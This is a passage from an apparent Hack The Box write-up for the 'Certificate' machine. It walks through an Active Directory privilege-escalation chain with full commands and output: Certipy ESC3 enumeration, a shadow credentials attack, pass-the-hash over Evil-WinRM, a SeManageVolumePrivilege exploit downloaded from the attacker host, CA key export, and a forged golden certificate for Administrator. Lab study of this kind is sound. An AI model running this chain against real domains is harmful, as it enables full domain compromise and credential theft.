ADCS        10.129.37.186   389    DC01             Found CN: Certificate-LTD-CA
```

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.37.186   certificate.htb
10.129.37.186   dc01.certificate.htb
10.129.37.186   Certificate-LTD-CA
```

## Privilege Escalation to Ryan.K

### Active Directory Certificate Services (AD CS) Enumeration

Of course our next step was to fire `Certipy` to see if there was any chance of abusing `Active Directory Certificate Services (AD CS)`. We found out that the configuration was vulnerable to `ESC3` which describes vulnerabilities in `Enrollment Agent Templates`.

```shell
┌──(kali㉿kali)-[~]
└─$ certipy-ad find -username 'lion.sk' -hashes '3b24c391862f4a8531a245a0217708c4' -dc-ip 10.129.37.186 -vulnerable -stdout
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 35 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 18 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'Certificate-LTD-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'Certificate-LTD-CA'
[*] Checking web enrollment for CA 'Certificate-LTD-CA' @ 'DC01.certificate.htb'
[!] Error checking web enrollment: timed out
[!] Use -debug to print a stacktrace
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : Certificate-LTD-CA
    DNS Name                            : DC01.certificate.htb
    Certificate Subject                 : CN=Certificate-LTD-CA, DC=certificate, DC=htb
    Certificate Serial Number           : 75B2F4BBF31F108945147B466131BDCA
    Certificate Validity Start          : 2024-11-03 22:55:09+00:00
    Certificate Validity End            : 2034-11-03 23:05:09+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : CERTIFICATE.HTB\Administrators
      Access Rights
        ManageCa                        : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        ManageCertificates              : CERTIFICATE.HTB\Administrators
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Enroll                          : CERTIFICATE.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : Delegated-CRA
    Display Name                        : Delegated-CRA
    Certificate Authorities             : Certificate-LTD-CA
    Enabled                             : True
    Client Authentication               : False
    Enrollment Agent                    : True
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectAltRequireUpn
                                          SubjectAltRequireEmail
                                          SubjectRequireEmail
                                          SubjectRequireDirectoryPath
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
                                          AutoEnrollment
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Certificate Request Agent
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2024-11-05T19:52:09+00:00
    Template Last Modified              : 2024-11-05T19:52:10+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFICATE.HTB\Domain CRA Managers
                                          CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFICATE.HTB\Administrator
        Full Control Principals         : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Owner Principals          : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Dacl Principals           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
        Write Property Enroll           : CERTIFICATE.HTB\Domain Admins
                                          CERTIFICATE.HTB\Enterprise Admins
    [+] User Enrollable Principals      : CERTIFICATE.HTB\Domain CRA Managers
    [!] Vulnerabilities
      ESC3                              : Template has Certificate Request Agent EKU set.
```

However, we were not able to abuse this to elevate our privileges even further.

### Access Control List (ACL) GenericAll Abuse Part 2

#### Shadow Credentials Attack Part 2

Due to the fact that we could basically impersonate every user on the whole domain we moved on to `Ryan.K`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad shadow auto -username 'sara.b@Certificate.htb' -password 'Blink182' -account 'ryan.k'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[!] DNS resolution failed: The DNS query name does not exist: CERTIFICATE.HTB.
[!] Use -debug to print a stacktrace
[*] Targeting user 'Ryan.K'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '34332401-52d3-1208-f927-5d583af1fe1b'
[*] Adding Key Credential with device ID '34332401-52d3-1208-f927-5d583af1fe1b' to the Key Credentials for 'Ryan.K'
[*] Successfully added Key Credential with device ID '34332401-52d3-1208-f927-5d583af1fe1b' to the Key Credentials for 'Ryan.K'
[*] Authenticating as 'Ryan.K' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'ryan.k@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'ryan.k.ccache'
[*] Wrote credential cache to 'ryan.k.ccache'
[*] Trying to retrieve NT hash for 'ryan.k'
[*] Restoring the old Key Credentials for 'Ryan.K'
[*] Successfully restored the old Key Credentials for 'Ryan.K'
[*] NT hash for 'Ryan.K': b1bc3d70e70f4f36b1509a65ae1a2ae6
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'ryan.k' -H b1bc3d70e70f4f36b1509a65ae1a2ae6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Ryan.K\Documents>
```

## Enumeration (Ryan.K)

And with `Ryan.K` we `FINALLY` found someone with interesting `permissions`! The user had set `SeManageVolumePrivilege`.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> whoami /all

USER INFORMATION
----------------

User Name          SID
================== =============================================
certificate\ryan.k S-1-5-21-515537669-4223687196-3249690583-1117


GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                           Attributes
========================================== ================ ============================================= ==================================================
Everyone                                   Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
CERTIFICATE\Domain Storage Managers        Group            S-1-5-21-515537669-4223687196-3249690583-1118 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                      State
============================= ================================ =======
SeMachineAccountPrivilege     Add workstations to domain       Enabled
SeChangeNotifyPrivilege       Bypass traverse checking         Enabled
SeManageVolumePrivilege       Perform volume maintenance tasks Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set   Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

On `BloodHound` we saw that he was member of the group `DOMAIN STORAGE MANAGERS`.



## Privilege Escalation to SYSTEM

### SeManageVolumePrivilege Abuse (Golden Certificate)

After a bit of research we found the amazing work of `CsEnox` which should grant us `full disk access` on the box by abusing `SeManageVolumePermission`.

- [https://github.com/CsEnox/SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit)

We copied the `SeManageVolumenExploit.exe` to the box and executed it.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> iwr 10.10.16.15/SeManageVolumeExploit.exe -o SeManageVolumeExploit.exe
```

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> .\SeManageVolumeExploit.exe
Entries changed: 839

DONE
```

After it changed the permissions the next step was to find a way to leverage our new capabilities. Therefore we investigated the `Certificate Storage` using `certutil` to stay in the theme of the box.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -store My
My "Personal"
================ Certificate 0 ================
Archived!
Serial Number: 472cb6148184a9894f6d4d2587b1b165
Issuer: CN=certificate-DC01-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:30 PM
 NotAfter: 11/3/2029 3:40 PM
Subject: CN=certificate-DC01-CA, DC=certificate, DC=htb
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Cert Hash(sha1): 82ad1e0c20a332c8d6adac3e5ea243204b85d3a7
  Key Container = certificate-DC01-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset

================ Certificate 1 ================
Serial Number: 5800000002ca70ea4e42f218a6000000000002
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 8:14 PM
 NotAfter: 11/3/2025 8:14 PM
Subject: CN=DC01.certificate.htb
Certificate Template Name (Certificate Type): DomainController
Non-root Certificate
Template: DomainController, Domain Controller
Cert Hash(sha1): 779a97b1d8e492b5bafebc02338845ffdff76ad2
  Key Container = 46f11b4056ad38609b08d1dea6880023_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft RSA SChannel Cryptographic Provider
Missing stored keyset

================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Provider = Microsoft Software Key Storage Provider
Missing stored keyset
CertUtil: -store command completed successfully.
```

We `exported` the `certificate` of the `Certificate-LTD-CA` in order to forge a `Golden Certificate` to `authenticate` with.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> certutil -exportPFX My 75b2f4bbf31f108945147b466131bdca certificate.pfx
My "Personal"
================ Certificate 2 ================
Serial Number: 75b2f4bbf31f108945147b466131bdca
Issuer: CN=Certificate-LTD-CA, DC=certificate, DC=htb
 NotBefore: 11/3/2024 3:55 PM
 NotAfter: 11/3/2034 4:05 PM
Subject: CN=Certificate-LTD-CA, DC=certificate, DC=htb
Certificate Template Name (Certificate Type): CA
CA Version: V0.0
Signature matches Public Key
Root Certificate: Subject matches Issuer
Template: CA, Root Certification Authority
Cert Hash(sha1): 2f02901dcff083ed3dbb6cb0a15bbfee6002b1a8
  Key Container = Certificate-LTD-CA
  Unique container name: 26b68cbdfcd6f5e467996e3f3810f3ca_7989b711-2e3f-4107-9aae-fb8df2e3b958
  Provider = Microsoft Software Key Storage Provider
Signature test passed
Enter new password for output file certificate.pfx:
Enter new password:
Confirm new password:
CertUtil: -exportPFX command completed successfully.
```

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> dir


    Directory: C:\Users\Ryan.K\Documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         6/1/2025   2:24 PM           2675 certificate.pfx
-a----         6/1/2025   1:47 PM          12288 SeManageVolumeExploit.exe
```

We downloaded the `certificate.pfx` and forged the `Golden Certificate` with the `UPN` set to `Administrator`.

```cmd
*Evil-WinRM* PS C:\Users\Ryan.K\Documents> download certificate.pfx
                                        
Info: Downloading C:\Users\Ryan.K\Documents\certificate.pfx to certificate.pfx
                                        
Info: Download successful!
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad forge -ca-pfx certificate.pfx -upn 'Administrator@certificate.htb' -subject 'CN=ADMINISTRATOR,CN=USERS,DC=CERTIFICATE,DC=HTB'
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Saving forged certificate and private key to 'administrator_forged.pfx'
[*] Wrote forged certificate and private key to 'administrator_forged.pfx'
```

After we `authenticated` ourselves against the `Domain Controller` we received the `hash` for `Administrator` and by using `Pass-the-Hash (PtH)` we were able to login and to grab the `root.txt`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Certificate/files]
└─$ certipy-ad auth -pfx administrator_forged.pfx -dc-ip 10.129.37.186       
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'Administrator@certificate.htb'
[*] Using principal: 'administrator@certificate.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certificate.htb': aad3b435b51404eeaad3b435b51404ee:d804304519bf0143c14cbf1c024408c6
```

```shell
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i certificate.htb -u 'Administrator' -H d804304519bf0143c14cbf1c024408c6
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

## root.txt

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
d51239cdbf3e639bba070d5b6b8c3c63
```
